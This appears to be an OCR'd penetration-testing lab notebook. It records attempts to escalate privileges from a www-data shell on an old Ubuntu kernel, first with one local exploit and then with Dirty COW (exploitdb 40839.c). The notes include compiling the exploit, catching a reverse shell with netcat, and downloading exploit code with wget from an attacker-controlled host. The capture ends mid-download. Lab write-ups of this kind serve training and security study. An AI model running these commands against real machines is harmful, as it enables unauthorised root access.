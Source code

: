 www-data@ubuntu:/tmp$ ./exploit

./exploit

exploit: 33589.c:73: main: Assertion `argc == 2 && "target?"' failed.

bash: [1673: 1 (255)] tcsetattr: Inappropriate ioctl for device

www-data@ubuntu:/tmp$ uname -a

uname -a

Linux ubuntu 3.2.0-23-generic #36-Ubuntu SMP Tue Apr 10 20:39:51 UTC 2012 x86_64 x86_64 x86_64 GNU/Linux

www-data@ubuntu:/tmp$ ./exploit localhost

./exploit localhost

(Breaks the shell 😞)

Will try dirty cow instead

  

wget http://192.168.45.176:8000/c0w.c

Nope

  

Trying another one

  

cp /usr/share/exploitdb/exploits/linux/local/40839.c 40839.c

gcc -pthread 40839.c -o dirty -lcrypt

  

nc -nlvp 4444                                                                                          14:38:57

listening on [any] 4444 ...

connect to [192.168.45.176] from (UNKNOWN) [192.168.178.87] 54427

bash: no job control in this shell

www-data@ubuntu:/usr/lib/cgi-bin$ cd /tmp

cd /tmp

www-data@ubuntu:/tmp$ wget http://192.168.45.176:8000/40839.c

wget http://192.168.45.176:8000/40839.c

--2023-06-15 07:42:22--  http://192.168.45.176:8000/40839.c

Connecting to 192.168.45.176:8000... connected.

HTTP request sent, awaiting response... 200 OK

Length: 4814 (4.7K) [text/x-csrc]

Saving to: `40839.c'
